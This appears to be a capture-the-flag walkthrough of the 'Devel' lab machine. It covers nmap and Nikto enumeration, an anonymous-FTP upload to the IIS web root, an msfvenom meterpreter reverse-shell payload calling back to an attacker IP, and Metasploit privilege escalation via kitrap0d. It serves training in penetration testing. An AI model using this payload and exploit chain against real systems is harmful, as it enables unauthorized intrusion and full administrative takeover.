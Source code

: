# Devel

## Information Gathering
Devel<br>
10.10.10.5<br>

Software Versions
- Microsoft IIS httpd 7.5

## Enumeration
Of course start with an nmap scan:
```bash
# Nmap 7.92 scan initiated Mon Feb 21 17:04:11 2022 as: nmap -sC -sV -oN nmap/devel.nmap 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up (0.028s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
| 02-21-22  03:26PM                 2932 rs1.aspx
| 02-21-22  03:52PM                38392 shell.asp
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 21 17:04:24 2022 -- 1 IP address (1 host up) scanned in 13.40 seconds

```
I also run a Nikto scan:
```bash
- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.5
+ Target Port: 80
+ GET Retrieved x-powered-by header: ASP.NET
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Retrieved x-aspnet-version header: 2.0.50727
+ OPTIONS Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ OPTIONS Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ GET /: Appears to be a default IIS 7 install.

```
And a Gobuster scan but nothing comes up.

## Exploitation
Right off the bat, we see anonymous login for ftp. Inside the ftp server, whatever we upload can be served on the HTTP server. I create a simple payload using msfvenom and upload it to the webserver.
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.122 lport=1337 -f aspx -o shell.aspx./
```
I start up a listener on Metasploit and catch a shell.

## Privilege Escalation
Standard Windows privilege escalation. Load the local_exploit_suggester and get the below.
```
[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 40 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable. -
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```
<b>exploit/windows/local/ms10_015_kitrap0d</b> returns an Administrator shell.